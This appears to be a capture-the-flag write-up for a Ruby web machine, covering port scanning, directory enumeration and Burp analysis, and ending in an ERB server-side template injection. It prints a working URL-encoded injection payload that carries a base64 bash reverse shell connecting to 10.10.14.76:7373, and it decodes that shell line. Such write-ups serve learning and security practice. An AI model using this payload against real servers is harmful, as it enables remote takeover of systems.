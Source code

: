 Let's start pinging:

(pic1)

Receives packets. Now let's start scanning the domain:

(pic2)

3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site. We begin by using gobuster to analyze the possible directories in the domain:

(pic3)

The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:

(pic6)

The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section that interact with the site.

(pic7)

Let's get more information about this site to infere what kind of attacks is this site vulnerable to:

(pic4)

Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:

(pic8)

There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=%5D).toArray())%20%7D%7D-,Ruby,-Ruby%20%2D%20Basic%20injections)
The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom.



Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot
use the same payload technique we used in Headless because Perfection is based on Ruby.

We know that the develper used a Ruby server template. So we search on Google: server-side template injection ruby

We access the following URL and read the documentation. They have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
They show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, we must know that the Ruby server only interpretates commands URL encoded. So both the payload and the command injection myst be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.
Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

The base64 string decodes into:

bash -i >& /dev/tcp/10.10.14.76/7373 0>&1

`bash -i` starts an interactive bash shell
`>& /dev/tcp/10.10.14.76/7373 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to 10.10.14.76 on port 7373 (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.
